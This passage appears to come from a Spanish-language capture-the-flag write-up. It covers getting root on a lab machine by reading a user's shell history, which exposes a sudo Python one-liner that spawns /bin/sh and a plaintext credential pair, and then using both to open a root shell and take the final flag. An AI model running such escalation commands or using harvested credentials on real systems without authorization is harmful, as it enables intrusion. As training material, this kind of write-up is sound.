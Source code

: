 
El historial muestra información **CRITICA**. El usuario ha usado:
1. ```sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")```
2. ```sudo python3 -c 'import os; os.system("/bin/sh")'```
3. ```P0assw0rd losy:gang```

Esto me da a entender que losy puede y ha estado ejecutando python como root para adquirir una shell como administrador. Además, en lo que parece ser un intento de inicio de sesión, se exponen sus credenciales.


## Acceso al terminal root.

![[Untitled 1.png]]

Utilizo el comando  ```sudo python3 -c 'import os; os.system("/bin/sh")'``` y las credenciales ```losy:gang``` para acceder a la terminal. Utilizo  ```cd /root``` para localizar la última flag.